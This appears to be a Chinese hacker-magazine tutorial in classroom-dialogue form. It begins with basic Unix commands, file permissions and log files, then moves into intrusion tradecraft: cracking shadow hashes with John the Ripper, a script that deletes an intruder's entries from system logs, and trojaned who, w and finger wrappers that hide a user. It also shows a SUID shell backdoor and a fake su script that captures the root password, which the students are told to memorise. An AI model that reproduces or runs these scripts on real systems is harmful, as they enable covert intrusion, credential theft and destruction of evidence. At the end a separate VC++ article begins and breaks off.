幻灯片出现“如何成为一名 Hacker”，并标注年份 1998。老师说明：上个世纪成长起来的一批信息安全技术专家，大多阅读过这类入门文章。随后翻到下一页，给出“成为 Hacker 所需基本技能”。

> “一位 Hacker 所需的基本技能：  
> 1. 学习程序设计；  
> 2. 取得一个免费的 Unix 或 Linux，学习使用和操作。”

老师特别强调第二条：在上个世纪，不会 Unix 的程序员很难成为 Hacker；当时 Unix 是 Internet 上的主流操作系统，hacker 文化也长期以 Unix 为中心。随后随技术发展，Windows NT/2000/XP/2003 等出现，格局才逐步改变。

### 1.1.1 一些基本指令学习

老师开始讲 Unix 系统基本指令，并建议同学们使用 VMware 在 Windows 下学习虚拟系统。安装后可使用 Unix/Linux 进行实验。课堂从最基础命令开始：`pwd`、`cd`、`ls`，并讲解了与 DOS 命令的异同。

- `pwd`：显示当前所在目录。
- `cd`：切换目录。
- `ls`：浏览目录内容。
- `ls -l`：长格式显示（类型、权限、所有者、长度等）。
- `ls -a`：显示包括隐藏文件在内的所有文件。

老师请同学上台实操，操作结果投到幻灯片上（如图1）。

```bash
[root@SoftSystemHacker root]# pwd
/root
[root@SoftSystemHacker root]# cd /home
[root@SoftSystemHacker home]# ls -la
...
[root@SoftSystemHacker home]# pwd
/home
```


小菜A下来以后，老师接着讲：“接下来我们学习察看文本文件内容的指令，这样的指令有好几个，比如 more、less。”

“怎么还有英文短语啊？”小菜们吓了一跳。

“呵呵，这不是短语，我们的 more 是一个命令，less 又是一个命令。它们的作用是显示文本，主要优点也就是可以翻看屏幕显示很长的文本。”

“虽然 less 的名字没有 more 俩字，可是功能更强一些，通常我都是习惯用 less 的。我们输入 less，然后后面加上要打开的文本文件名字就可以浏览内容了，我们可以使用同学们玩游戏常用的箭头按钮上下移动文本。”

“那东西墨乎乎的，功能又这么少，万一我们想要在很长的文章里面找一个关键词怎么办，难道用肉眼慢慢找啊？”小菜B开始发牢骚了。

“这位同学还想得很周到，我们的 less 当然有这样的功能了，”老师回答。“在文本查看的状态下，我们输入斜杠（/）然后加上单词或者短语，然后回车就可以在显示的文本中向下查找关键字；如果输入的不是斜杠而是问号，就是在显示的文本中向上查找。”

“当然了，平时我们遇到很长的文本文件的机会比较少，所以最常用的文本显示命令就是 cat 了。”老师补充道。

“cat 指令是 concatenate 的缩写，常用程度和以前 DOS 里面的 type 相似。大家看幻灯机屏幕，我们演示一下这几个指令的操作方法（图2）。”


“大家都看到了，Unix 命令的使用方法跟 DOS 命令其实大致相同，只不过它的指令数量较多，几乎可以完成你所能够想到的所有系统操作。”

“接下来我们就不这样一个指令一个指令地细讲了，我把对我们有用的一些基础命令打在幻灯上面，同学们当作笔记抄下来。回去挨个试一遍。”说完老师便操作起了幻灯机，在屏幕上投下下面的文字：

```text
find 命令：find 用于寻找系统中的文件。
基本结构：find [搜索路径] [操作动作]
例子：find . -name "*.log" -print

grep 命令：grep 用于搜索文件中符合指定模式的内容。
例子：grep 222 .* | ...

tar 命令：tar 常用于压缩文件和解压缩文件。
常见参数：
-c 创建归档
-x 解压归档
-z 通过 gzip 处理
-v 显示处理过程
```

```text
tar 命令参数示例：
例子：tar cvf newfile oldfile
解释：把 oldfile 压缩打成包 newfile
例子：tar xvf downloadfile.tar
解释：解压缩文件 downloadfile.tar

cp 命令：把文件从一个目录复制到另一个目录。
例子：cp testfile testfilecopy
解释：将 testfile 制作一个备份
例子：cp testfile1 testfile2 testfile3 /tmp
解释：把 testfile1、testfile2、testfile3 复制到 /tmp

rm 命令：删除文件。
例子：rm testfile
例子：rm *.txt

mv 命令：文件的移动或改名。
例子：mv testfile /tmp
例子：mv testfile newname

touch 命令：创建文件。
例子：touch newfile

mkdir 命令：创建目录。
例子：mkdir /home/testdir
```

### 第二天上课…

“同学们呀，昨天回家都自己做了试验了吗？”老师刚到教室就提作业的事情。

“做是做了，可是遇到些问题。”小菜E说。

“那几个操作都是 DOS 下比较熟悉的，怎么没有删除文件夹？”

“嗯，删除或者移动文件夹的时候，只需要在删除指令后边加上参数 -r 就可以了。”

“在例子中我们看到了通配符 *，它的使用是不是跟 DOS 一样的呢？”

“这个问题提得好，是有一点相似，但是可以更复杂，功能更强大。大家下去找本 Unix 教材或者在网上找找关于命令表达式的介绍，不是很难，但是详细介绍大概还要花一整节篇幅来讲解，所以这个就交给大家下去看了。”

“我用 touch 新建的文件长度为零，这样新建的文件有什么用呢？”

“新建长度为零的文件的用途，大家可以暂时不去管它，等以后对 Unix 很熟悉的时候再回过头来看这些就行了。目前，我们需要使用 touch 命令来改变已有文件的日期标志，Windows 下需要使用专门的工具来完成的工作，这里用 touch 指令就行。”

“具体的使用方法是在 touch 后边加上参数 -t，然后在后边跟上 MMddhhmm，也就是月、日、时、分，比如 04011212 就是 4 月 1 日 12 点 12 分。最后加上要修改时间参数的文件名即可。我们来看幻灯，现场演示一下（如图3）。”

“大家看幻灯，我们新建了一个叫做 TimeFile.txt 的文件，可以看到，开始它的创建时间是 4 月 26 日 11 点 5 分，经过 touch -t 的修改后，它的创建时间变成了 4 月 1 日 12 点 12 分。”


“原来这样啊，看来这的确是一个有用的命令。”小菜们发出感叹。

“差不多时间了，我们还是下课休息一下吧。”看来老师并不是一个 BT 的人。

尽管是休息时间，小菜同学们还是一下子把老师围着闲聊了起来。

“老师，为什么我们不学习 Unix 或者 Linux 的图形化界面的操作呢？”小菜们似乎觉得图形化的界面比较好用。

“嗯，这个问题好。图形化界面在我们这里叫做 GUI，也就是 Graphic User Interface 的缩写。GUI 并不是真正的操作系统，它仅仅提供一种视觉上的帮助，用一些卡通形式的动画来告诉用户计算机正在做什么，计算机其实并不需要 GUI 来做这些工作，那些知道计算机实际应该怎么做的用户也不需要 GUI。”

“我们所需要操作的仅仅是 Shell 就可以了，Shell 就是……”老师继续补充道。

“我们知道！Shell 是向操作系统内核传递指令的接口，我们的程序课老师在讲 shellcode 编写的时候介绍了 Shell 这个词的来由的。”小菜们得意抢着回答。

“看来大家每门功课都学得很认真呀。好了，我们继续上课。”老师对大家的表现还比较满意。

“接下来我给大家介绍下 w、who 和 finger 这 3 个命令。它们 3 个的用途都差不多，在 Shell 下输入命令按回车，就可以看到目前登录本机的所有用户以及他们的来源，这 3 个命令在 Unix Hacking 中可是必须掌握的啊。我们在幻灯上看看效果吧（如图4）。”老师讲到。


“这 3 个命令还真是简单。”小菜A高兴了。

“明天要讲的东西就有一点点复杂了，大家可不要掉以轻心了。”老师补充道。

### 三、文件的权限

“今天开始大家要接触的内容很重要哦，一定要认真听。”老师说道。

“我们先看幻灯（如图5）”。


“大家注意到屏幕上的 drwxr-xr-x 这样的文字了吗？”老师问。

“看见了，不过这是什么意思呢？”小菜C问。

“这些字母是不是文件名的编码版本，或者是文件的 Id，或者是其他的什么东西。”小菜D接着问。

“这位同学的想象力真丰富，可能事实上没有那么有趣。不过，这些信息对我们来说可是无价之宝。”

“drwxr-xr-x 的第一个字母 d 表示这是一个文件夹，剩下的 rwxr-xr-x 我们把它分成三组，分别是 rwx、r-x 和 r-x。”

“第一组 rwx 表示文件拥有者的权限，第二组 r-x 表示文件拥有者同组的权限，第三组 r-x 表示其他用户的权限。其中，r 表示读，w 表示写，x 表示执行，- 就表示没有这项权限。”

“我们来举几个例子，大家看幻灯好了。”老师在幻灯片上投下了新的画面。

> **drwxrwxrwx**：它的第一个字母 d 表示这是一个文件夹。所有用户、用户组以及本系统的任何人都可以读、写或者执行这个文件。  
>  
> **-rw-r--r--**：这是一个很普通的文件。只有创建者和用户组对它进行读写操作，其他人仅可读。  
>  
> **-rw-------**：只有用户本人才能读写这个文件，这可能是涉及个人隐私的文件。

“接下来我们看看如何更改文件的权限。”老师继续讲道。

“修改一个文件许可属性比较简单的办法就是指定要修改哪一个域，比如 user、group 或者 other，然后指定要赋给这个文件什么样的许可权限属性，比如 read、write，或者 execute。为了选择要修改的域，使用第一个字母作为其缩写，u 表示用户，g 表示组，o 表示其他用户。”

“当然，如同大家开始看到的，r 表示 read 权限，w 表示 write 权限，x 表示 execute 权限。”

“然后使用加号（+）或者减号（-）来连接作用域和权限。”

“下面我们在计算机上现场演示几个例子，大家看幻灯。”老师给幻灯翻了一页。

“首先看看我们用于试验的文件 test.txt 的权限。大家可以看...”

# 主题乐园

“它的权限是 `-rwxrwxrwx`（如图6）。”

```bash
test@SoftSystemhacker test$ ls -la
...
-rwxrwxrwx 1 test users 11 ... test.txt
-rw-r--r-- 1 test users  9 ... TimeFile.txt
```

“现在我们对它进行权限改变操作，想要让组外人员不能对它进行写操作。我们要执行的指令是 `chmod o-w test.txt`，也就是减去 o 域的 w 权限（如图7）。”

```bash
test@SoftSystemhacker test$ chmod o-w test.txt
test@SoftSystemhacker test$ ls -la
...
-rwxrwxr-x 1 test users 11 ... test.txt
```

“接着我们去掉本组用户对它的执行权限，指令是 `chmod g-x test.txt`（如图8），也就是减去 g 域的 x 权限。”

```bash
test@SoftSystemhacker test$ chmod g-x test.txt
test@SoftSystemhacker test$ ls -la
...
-rwxrw-r-x 1 test users 11 ... test.txt
```

“通过这两个例子，大家都学会如何修改一个文件的权限属性了吧？”  
“嗯，这不算很难，多练习就熟练了。”  
“那就好，不过大家可能经常看见有人用 777 或者 755 这样的数字来描述一个文件的权限，这里我们介绍一下改变权限的另一种方法。”  
“去掉表示文件夹的 d 符号，我们的权限字符有 9 个字母组成，我们把它们等分成 3 段……因此 `rwxrwxrwx` 就可以用 777 来表示，同理 `rwxr-xr-x` 就可以用 755 来表示了。”  
“下面我们把 `test.txt` 的权限属性改为 `rwxr-xr-x` 吧（如图9）。”

```bash
test@SoftSystemhacker test$ chmod 755 test.txt
test@SoftSystemhacker test$ ls -l
-rwxr-xr-x 1 test users 11 ... test.txt
```

“原来这么简洁呀。”  
“是比较简洁，不过对初学者来说，可能要多加练习，慢慢熟练起来才行。今天回家大家就多熟练一下所学的内容吧。”

### 用户与口令

“无论什么系统，用户与口令总是一个比较敏感的安全话题。今天我们就先来看在 Unix 下如何管理用户。”  
“我们在系统中创建新用户是通过 `useradd` 或者 `adduser` 来实现的……如果想建立一个新用户，输入 `useradd testuser` 就可以建立一个叫做 testuser 的用户。”  
“当然，这样子添加的用户没有密码，所以必须要添加了密码才可以登录。”  
“如果要在添加用户的时候指定组，可以使用 `useradd -g users testuser`，这样就把用户添加到 users 这个组里面。”  
“如果要指定用户的主目录，可以使用 `useradd -d /other/home/testuser testuser`，这样就把 testuser 的主目录设置到 `/other/home/testuser` 里面了。”

```bash
[root@SoftSystemhacker root]# useradd testuser
[root@SoftSystemhacker root]# passwd testuser
Changing password for user testuser.
New password:
Retype new password:
passwd: all authentication tokens updated successfully.
```

“这样呀，有点像 Windows 系统的 net user 命令呢。”  
“我们怎么知道这个用户已经添加好了呢？”  
“肯定加好了的。用这个用户登录一下，或者我们去看一个文件。”  
“什么文件啊？”  
“大家看好，如图11 和图12。”

```bash
[root@SoftSystemhacker root]#
[root@SoftSystemhacker root]# cat /etc/passwd
```

```text
games:x:12:100:games:/usr/games:/sbin/nologin
...
testuser:x:501:501::/home/testuser:/bin/bash
```

“大家看见最后一行里面有我们新添加的用户 testuser 了吧。”  
“看见了，可是我们看的这个文件是做什么用的？”  
“这就是大名鼎鼎的 passwd 文件啊，用户的密码等重要信息就保存在这里面。比如加密后的口令、Pid、Uid、用户的主目录和使用的 shell。”  
“可是大家注意到了没有，加密后的口令信息在哪里呢？”  
“不是这样的。我们用户口令的加密部分被拷贝到了一个叫做 shadow 的文件中，对除 root 用户外的其他所有用户隐藏再加密。我们来看 shadow 里面有什么东西，在 shell 里面输入 `cat /etc/shadow` 然后回车（如图13）。”  
“这个加密的过程是用单向的散列变换来完成的，现在很多系统使用的都是 MD5+salt……salt 用于增加破解难度。”

“如果一个入侵者以某种办法拿到了系统的加密后的口令，比如 passwd 或者 shadow，他一般会使用字典攻击来试图破译这些口令。我们今天用一个叫做 John the Ripper 的工具来做个小实验。”

“我们把图13最后一行的文字抄下来，放在一个叫做 `shadow.txt` 的文本文件里面（如图14），然后准备一个简单的字典 `pass.txt`……为了检验 john 是否能够破译口令，我们把真正的口令 5200314 也放进去（如图15）。”

“然后我们使用 john 的字典模式来破译加密后的口令（如图16）。”

“哇，john 找到我们的用户口令了！”……“通常，一个纯数字的口令在字典和 john 面前是非常脆弱的……”

- 1. 首先使用简单模式破解口令（例如与用户名相同或常见口令）。
- 2. 然后使用字典模式破解常规口令或纯数字/纯字母口令。

操作举例：`john --single c:\shadow.txt`

- 操作举例：`john --wordfile:c:\pass.txt c:\shadow.txt`

说明：字典模式会把字典内容全部穷举，不推荐在生产系统中随意使用。

## 四、安全日志系统

“接下来我们介绍 Unix 系统下常见的安全日志系统。” Linux/Unix 提供了记录系统运行状态与程序活动的机制，可用于从安全缺陷到硬件故障的排查。

“首先要提到的是 syslog 日志……通常放在 `/var/log/messages` 或 `/var/adm/messages` 里面，下面我们具体看看 messages 里面的东西（如图17）。”

“我们看到这里面含有系统各方面的信息……最后一行含有 root 登录系统的信息。”  
“我们使用 `grep testuser /var/log/messages` 就可以看到 testuser 的痕迹（如图18）。”

对话讨论了日志路径可能不止一个，且由 `syslog.conf` 配置决定；日志甚至可能输出到打印机或远程日志主机。入侵排查时应先检查 `syslog.conf`，确认 messages 被输出到哪里，避免只清理单一文件。

以前登录到系统中的所有用户。这个文件随着用户进入和离开系统而不断地变化。它还会为系统中的用户保持很长的历史记录，可以使用 `w`、`who` 和 `finger` 命令查看 `utmp`。……

接着看我们的 `wtmp` 文件，它的作用是记录用户登录和退出事件；它和 `utmp` 类似。`wtmp` 和 `utmp` 文件都是二进制文件，不能被命令剪贴或合并。……可以使用 `last` 命令查看它的内容。

“我们就看看含有 `/var/log/messages` 这一行的东西，解释一下它的意思就可以了。大家看到 `mail.none`、`authpriv.none` 这些文字了吧？”

“`mail.none;authpriv.none /var/log/messages` 就表示把邮件和验证程序以外的信息记录到 `/var/log/messages` 里面。”

“在下面一行中我们看到 `authpriv.* /var/log/secure` 这样的文字了吧？它表示把所有的验证信息放在 `/var/log/secure` 中。”

“嗯！明白了，我们基本上看懂这个配置文件了。”……随后讨论修改 `syslog.conf`、重载 `syslogd` 进程（`kill -HUP`）以及各类日志文件目录（如 `/var/log`、`/var/adm`、`/var/run`）和文件（`lastlog`、`utmp`、`wtmp`、`utmpx`、`wtmpx`、`messages` 等）。

## last 命令的小例子

```bash
last -u 502 将报告 UID 为 502 的用户；
last -t 7 表示限制上一周的报告。
```

## 小插曲——角色扮演游戏（1）

“大家回忆一下我们每次登录进系统的时候是不是都会显示上次登录的来源和时间（如图4、图5）？”……

“对了，我们的 `lastlog` 就是专门负责这一块工作的。当一个用户登录进系统时，注册程序在 `lastlog` 文件中查找该用户的 uid，如果找到就会显示最后一次登录时间和 TTY（终端号）。”

“大家在幻灯上找到 `utmp` 这个文件了吧？它的作用就是记录……”

> “我们看出每个用户喜欢的登录都被它记录下来了。”

“好厉害，什么情况它都监控着呢，好像是电影《黑客帝国》里的母体系统。”  
“就是啊，想要做 Neo 真是不容易呀。”  
“大家安静！现在放松一下，我们来做个游戏吧！”  
“是的，我们来玩个小游戏吧。谁来扮演 Neo？”  
“我来，我最喜欢 Neo 了。”  
“那谁来扮演母体的侦探？”  
“我！我来扮演反面角色。”  
“好！Neo 先生，我现在给你一个普通账号 neo 密码 trinity，现在要求你在 10 次内猜对超级用户 root 的密码……”  
“侦探先生，现在系统命令你找出试图进入我们世界的入侵者，你得拿到证据！否则系统会安装其他的侦探程序。”  
“Neo 成功进入了系统……系统侦探尾随而至……根本不幸，Neo 没能找到回去的电话线……”

# 主题乐园

## 五、踪迹隐藏与权限保持

“今天我们要讲的是可以让 Neo 安全撤离系统的知识。昨天的小游戏里面，Neo 可是惨败收场啊。大家学好今天的内容，Neo 同学就可以在各个系统里面行动比较自由了。”

老师的话立即提起了大家的浓厚兴趣，全部一个个乖乖地趴在桌子上，耳朵竖得老高。

“昨天顾着做游戏，有一个重要的日志还没有讲，今天补充一下。”老师很抱歉地说。

```bash
[neo@SoftSystemHacker log]$ cd /
[neo@SoftSystemHacker /]$ su
Password:
su: incorrect password
...
[root@SoftSystemHacker /]#
```

```bash
SoftSystemHacker login: root
Password:
Last login: ...
[root@SoftSystemHacker root]# grep neo /var/log/messages
...
[root@SoftSystemHacker root]#
```

用户的 home 目录下有一个隐藏的文件叫做 `.sh_history` 或者 `.bash_history`，里面记录着用户的所有 shell 命令。我们来看一下幻灯（如图24）。

```bash
[root@SoftSystemHacker root]# cat .bash_history | more
telnet 222.115.46.148
ifconfig
netstat
...
```

“哇，每条指令都记着哩！”小菜们顿时觉得很恐怖。“就先讲下怎么对付指令记录来嘛！”

“这个简单，把它删掉 `rm .bash_history`，然后把它输出到 `/dev/null`，命令如下：`ln -s /dev/null .bash_history` 就行了。”

“下面我们可按顺序讲了。首先讲一下反跟踪的习惯，即使我们要对系统的日志进行清理，但是任何有效反跟踪的举动都是最好的习惯。我们看幻灯上的东西，请大家记笔记。”

> 如果条件允许，尽量多人 telnet 或 ssh 多次转程登录目标系统。跟踪用户大多只会记录 3 个登录点，但是最好每使用一次跳板后，至少一个月内不要重复使用。  
> 1. 如果使用 telnet 或者 ssh 登录目标程序，不要这样使用：`telnet 222.22.2.222`，然后攻击者会在 telnet 发起 IP 位置被记录。  
> 2. ……  
> 3. 如果多进入系统，最好使用 telnet 或者 ssh，在远程 shell 中再次登录多地点 IP 地址，这样系统记录的最近一次登录地址就无法追踪到本地计算机。

“感觉像是全身挂满拖布条子，拿着 AWP 的狙击手了。”小菜 B 边记边说。  
“呵呵，没有你说得那么严重，这些反跟踪的习惯要大家在实战中去养成的。现在就先记着吧。以后就要自己总结适合自己的一套习惯来。”

“接下来我们提一下如何自己去掉一个日志文件的某种信息的方法……”

“为什么不用个清除日志的工具呢？”小菜 C 觉得以前都用的是工具。  
“工具当然很好了，不过没有什么可讲的，上网搜索一个最新最好用的，看看 readme 就可以了。我们重在讲原理，以后你们自己编写工具拿给大家分享吧。”

“现在我们拿 messages 文件作例子，大家昨天看到使用 `grep neo messages` 的效果了（图23）。如果我们想让这些痕迹消失，应该怎么做？”

“嗯~~~ 我昨天应该把 messages 这个文件删除！”小菜 A 后悔地说。  
“那这样管理员找不到 messages 了，他难道还不知道系统里发生什么事情了吗？”小菜 E 提醒了一句。  
“所以我们只能把日志文件里面不该有的信息去掉，其余的留下。”

“想法是很好，可是具体应该怎样操作呢？”  
“用我们以前学过的基本指令啊！我们把 cat 和 grep 两个命令组合起来就可以了。具体是这样的：`cat messages | grep -v "neo" >> temp`。大家看看这个命令是什么意思？”

“如果只是 `cat messages >> temp` 就是把 messages 里面的内容放到新建文件 temp 里面去。”小菜 B 回答。  
“对！看起来这位同学课后认真地练习过不少指令的。我们在里面加上了 `grep -v "neo"` 就是要求把含有 neo 的行找出来并去掉。”

“所以这条指令的意思就是把去掉 neo 的信息放进一个叫做 temp 的文件里面。”  
“那我们的 messages 还是……”  
“然后我们用 temp 覆盖 messages 就可以了。大家看看效果吧（如图25）。”

```bash
[root@SoftSystemHacker log]# cat messages | grep -v "neo" >> temp
[root@SoftSystemHacker log]# mv temp messages
[root@SoftSystemHacker log]# grep neo messages
[root@SoftSystemHacker log]#
```

“果然是个好办法。”  
“同理，我们对每个日志文件都进行这样的操作，不就完成清理任务了吗。我们也可以把这些命令写在一起，做一个下面这样的批处理脚本。”老师说。

```bash
#!/bin/sh
cat /var/log/wtmp | grep -v "neo" >> /var/log/temp
mv -f /var/log/temp /var/log/wtmp
cat /var/log/lastlog | grep -v "neo" >> /var/log/temp
mv -f /var/log/temp /var/log/lastlog
cat /var/log/messages | grep -v "neo" >> /var/log/temp
mv -f /var/log/temp /var/log/messages
cat /var/run/utmp | grep -v "neo" >> /var/run/temp
mv -f /var/run/temp /var/run/utmp
cat /var/log/syslog | grep -v "neo" >> /var/log/temp
mv -f /var/log/temp /var/log/syslog
cat /var/log/secure | grep -v "neo" >> /var/log/temp
mv -f /var/log/temp /var/log/secure
```

```bash
/usr/bin/killall -HUP syslogd
```

“接下来我们说说 who、w 和 finger 的程序替换。”老师说。小菜们问程序替换有什么用。老师解释说，学习基本指令时提到过这类命令可以查看当前登录用户；若希望自己的名字从列表中消失，可通过清除日志等方式，但频繁手工清理日志风险较高，因此需要更隐蔽的方法。

```bash
[root@SoftSystemHacker log]# whereis -b who
who: /usr/bin/who
[root@SoftSystemHacker log]# cd /usr/bin
[root@SoftSystemHacker bin]# mv who .who
[root@SoftSystemHacker bin]# echo '/usr/bin/.who | grep -v neo' > who
[root@SoftSystemHacker bin]# chmod +x who
```

示例先定位 who 程序，再重命名为 `.who`，新建包装脚本 `who` 执行原程序并过滤指定用户名，最后赋予可执行权限。这样可让某个用户在查询结果中“消失”。

```bash
SoftSystemHacker login: neo
Password:
[neo@SoftSystemHacker neo]$ who
[neo@SoftSystemHacker neo]$
```

“同理可用于 w 和 finger，我们的用户 neo 几乎在系统中就半透明了。”

### 小插曲——角色扮演游戏（2）

接下来继续“游戏”：neo 进入“系统”执行任务，Trinity 负责前进营救。流程包括进入系统、替换程序、寻找开门钥匙、清理日志并成功撤离。

```bash
SoftSystemHacker login: trinity
Password:
[trinity@SoftSystemHacker trinity]$ su
Password:
[root@SoftSystemHacker trinity]# cd /usr/bin
[root@SoftSystemHacker bin]# echo '/usr/bin/.who | grep -v trinity' > who
[root@SoftSystemHacker bin]# mv w .w
[root@SoftSystemHacker bin]# echo '/usr/bin/.w | grep -v trinity' > w
[root@SoftSystemHacker bin]# chmod +x w
[root@SoftSystemHacker bin]# mv finger .finger
[root@SoftSystemHacker bin]# echo '/usr/bin/.finger | grep -v trinity' > finger
[root@SoftSystemHacker bin]# chmod +x finger
```

```bash
[root@SoftSystemHacker bin]# cat /var/log/matrixcode
#582tnavy&door
[root@SoftSystemHacker bin]# cleanlog
log clear...Done.
[root@SoftSystemHacker bin]#
```

游戏结束后，大家讨论了 `cleanlog`（自写日志清理脚本）以及是否需要专用清日志工具（如 wipe 等）。又有人追问 Trinity 如何知道 root 密码，老师说明这是为了模拟提权过程，真实场景通常是先拿到普通权限，再做本地提权与后门维持。

右栏内容围绕“权限提升”展开：如果通过远程溢出拿到 `euid=0` 的 shell，常需进一步维持 root 权限并获取稳定控制；如果只有普通权限，则需先提权。文中以对话方式区分两种情形，并强调留后门与清痕迹的思路。

随后讨论在 Unix/Linux 中进行本地提权：寻找 exploit、在本地编译运行。对于“不会编译程序”的问题，给出使用 `gcc` / `cc` 的基本命令示例，并提示某些系统默认未安装 gcc，可用 `whereis -b gcc` 查找。

继续对话提到：拿到 root 后常见做法是制作 suid shell，但作者认为这过于显眼。于是转向“如何查找带 s 属性文件”的命令方式，作为审计与后渗透的示例。

```bash
[root@SoftSystemHacker trinity]# chmod +s bash
[root@SoftSystemHacker trinity]# ls -a ~
[root@SoftSystemHacker trinity]# find /home -type f \( -perm -4000 \)
/home/trinity/.bash
```

文中指出：命令行可快速定位带 SUID 属性文件，因此这种后门方式并不高明，容易被管理员发现。最后引出“若被发现应如何处理”的追问，并回到提权与痕迹控制的实践讨论。

# 主题乐园

“密码才是王道，”老师说道。

“破解口令呀？”

“不要说你们忘了，前几天讲用户的时候才讲过的，忘记了就去复习一下 `passwd`、`shadow` 和 `john` 吧。”

“那就说说 `root` 的密码怎么办吧？”小菜 A 打破沙锅问到底。

“大家知道如何写盗 QQ 密码的程序么？”老师问道。

“大致原理还是知道的，比如编写 Hook 程序截取密码输入框的内容，或者截取 Windows 的消息。”小菜 E 回答。

“其实很早以前还有种土得掉渣的 QQ 密码偷取程序，它做的和 QQ 的登录界面一模一样，别人输入密码后它就记录下来，报告密码错误，然后启动真正的 QQ。”

“哈哈，这种办法好傻啊。”

“我们诱骗 `root` 密码的原理和这个是一样的，而且屡试不爽。因为 `root` 的口令一般都很复杂，偶尔输错一次也很正常。这个脚本如下。”

```bash
#!/bin/sh
echo -n 'Password:'
stty -echo; read PASSWD; stty echo
echo "$PASSWD" > /man/help/lib/man/.../.pswd
echo
echo 'su: incorrect password'
rm -f /bin/su
cp -p /man/help/lib/man/.../.s /bin/su
```

“里面的 `/man/help/lib/man/.../.pswd` 就是我们存放 `root` 口令的位置，以后我们也是到这里来查看这个口令的。”

“说说这个脚本具体怎么用的呢？”小菜 C 问。

“好的，首先把真的 `su` 拷贝到一个我们建的目录里面去，然后把假的 `su` 放到 `su` 的位置，然后修改假 `su` 的时间属性。再然后给假 `su` 和 `rm` 赋以足够的权限。之所以要给 `rm` 设置权限，因为我们的脚本里面含有 `rm` 命令，有可能会因为权限不够而无法执行。”

“这个脚本很有用，我希望大家能够理解了之后把它背下来，这样进入系统之后随手就可以用文本编辑指令写下这个密码诱捕器。”

“这么长，又那么多斜杠之类的符号，好难记啊！”小菜们顿时愁眉苦脸。

“没关系，我给你们准备了一幅桌面，上面带有这些脚本代码，天天看就熟悉了。虽然它是用 PhotoShop 加工制作出来的，但是这还是可以比较真实地体现 Unix Hacking 的氛围。不过要注意一点，这是老师 03 年给自己制作的一幅桌面，里面的 shell 指令可以看见 suid 的坏习惯，大家切记不要模仿这一点就可以了。”

“……而已了。”

## 六、尾声

“这门课程到这里就要快要结束了，这次由于是入门级的定位以及限于老师的水平，可能某些地方讲得不是很深入，请大家谅解。等大家的系统知识和编程技能到了一定程度的时候，我们能自己编写 Unix 下的工具程序就比较理想了。”

“什么意思啊？举个例子嘛，老师。”小菜们还想继续听下去。

“比如说我们如果能够改系统的 `login` 程序代码，我们特定的用户一登录进来就受到特殊待遇，他在 `su` 的时候可以用后门口令变成 `root` 之类的，只要管理员不用 MD5 来验证 `login` 程序就很难发现。这不是很大的优势吗？”

“如果厉害的管理员要用 MD5 验证所有程序呢？”

“呵呵，提得好。几乎所有的 Unix 系统使用共享库，共享库用于相同函数的重用而减少代码长度。一些入侵者在将 `crypt.c` 和 `_crypt.c` 这些函数里做了后门。像 `login.c` 这样的程序调用了 `Crypt()`，当使用后门口令时就产生一个 root shell。因此，即使管理员用 MD5 检查 `login` 程序，仍然能产生一个后门函数。”

“所以说，在大家学会系统操作和管理这些表面上的东西之后，在编程上面多下功夫是很有必要的。”

“可是我们现在还没有那么好的功底啊，这可怎么办啊。”小菜们都很着急。

“没关系，现在先用别人共享给我们的成果吧，比如一些好用的日志擦除工具、一些优秀的扫描器、嗅吸器，还有 rootkit 工具之类的。以后有能力了再写一些自己的工具来回报大家。”

“啊啊，好的。”

“总结一下这次学到的东西：文件权限、密码破解、安全日志、踪迹隐藏这几大块还真不少呢，以后就照着学习笔记按部就班就可以了。”小菜 A 说道。

“不对，攻防应该是知识、技术、智慧和经验的对抗，不能按照定好的套路行事，大家在实战中多总结具有个人特色的思路吧。所谓师傅领进门，修行在个人啊。以后大家就自己多加努力了。如果有机会我们再来一起学习其他的专题课程。”

（文章涉及到的 John the Ripper、`root_pswd_*.jpg` 光盘有收录。）

# 告别菜鸟——VC 编程初体验

王炜

7月，骄阳似火。俗话说得好：夏日炎炎正好眠。但追求卓越的小菜们，正挥汗如雨，一如既往地向自己追求的领域努力进发。

新一期的专题课堂也开学了，这学期的内容是 VC++ 编程基础。

“好了，同学们，从这学期开始，我们就学习使用 VC 进行程序的开发了。”老师说道。

“好哇，早就想有机会学习 VC++ 了。”小菜们高兴地说道。

“学会了 VC，就可以学习网络编程，我的木马，我的黑客，嘿嘿嘿嘿……我来了。”

“是啊，是啊，早就听说过 VC 这门语言强大得很呢！”大家议论纷纷。

一滴大汗立马从老师后脑勺上滴下来，老师忙说道：“VC 可不是一门语言啊。C 和 C++ 能称为语言，而 VC++ 只能说是工具。它们之间有很大不同的。”

“哦？”大家疑惑了。

“看来我们还先从基础讲起吧，首先看看常见的概念：C、C++、API 和 MFC 间的区别。”

### 1、C 语言简介

C 语言是目前最流行、使用最广泛的高级程序设计语言。

C 语言的原型是 ALGOL 60 语言。1963 年，剑桥大学将 ALGOL 60 语言进行发展，成为 CPL（Combined Programming Language）语言。1967 年，剑桥大学的 Martin Richards 对 CPL 语言进行了简化，于是产生了 BCPL 语言。

1970 年，美国贝尔实验室的 Ken Thompson 将 BCPL 进行了修改，并以第一个字母 B 取名为“B 语言”。意思是将 CPL 语言精简掉，提炼出它的精华。并且他用 B 语言写了第一个 UNIX 操作系统。

而在 1973 年，B 语言又再次精简，美国贝尔实验室的 D. M. Ritchie 在 B 语言的基础上最终设计出了一种新的语言，他取了 BCPL 的第二个字母作为这种语言的名字，这就是 C 语言。

为了使 UNIX 操作系统推广，1977 年 Dennis M. Ritchie 发表了不依赖于具体机器系统的 C 语言编译文本《可移植的 C 语言编译程序》。

1978 年 Brian W. Kernighan 和 Dennis M. Ritchie 出版了名著《The C Programming Language》，从而使 C 语言成为目前世界上流行最广泛的高级程序设计语言。

1988 年，随着微型计算机的日益普及，出现了许多 C 语言版本。由于没有统一的标准，使得这些 C 语言之间出现了一些不一致的地方。为了改变这种情况，美国国家标准研究所（ANSI）为 C 语言制定了一套 ANSI 标准，成为现行的 C 语言标准。

### C 语言的主要特点：

C 语言功能强大、使用灵活。它具有高级语言的基本结构和语句，又可以像汇编语言一样对位、字节和地址进行操作，所以 C 语言又被称为中级语言。

C 语言生成代码的质量高，程序执行效率高。除了 *nix，许多著名的系统软件，如 DBASE III PLUS、DBASE IV 都是由 C 语言编写的。C 还可以嵌入汇编，用 C 语言加上一些汇编语言子程序，就更能显示 C 语言的优势了，像 PC-DOS、WORDSTAR 等就是用这种方法编写的。

举个简单的例子，一个输出文件的 C 源程序 `file.c` 如下：

```c
#include <stdio.h>      /* 头文件 */
int main()              /* 程序入口 */
{
    FILE *fp;           /* 文件指针 */
    char output[] = "Hello,C!";   /* 输出内容 */

    fp = fopen("c:\\text.txt","w");   /* 打开文件 */
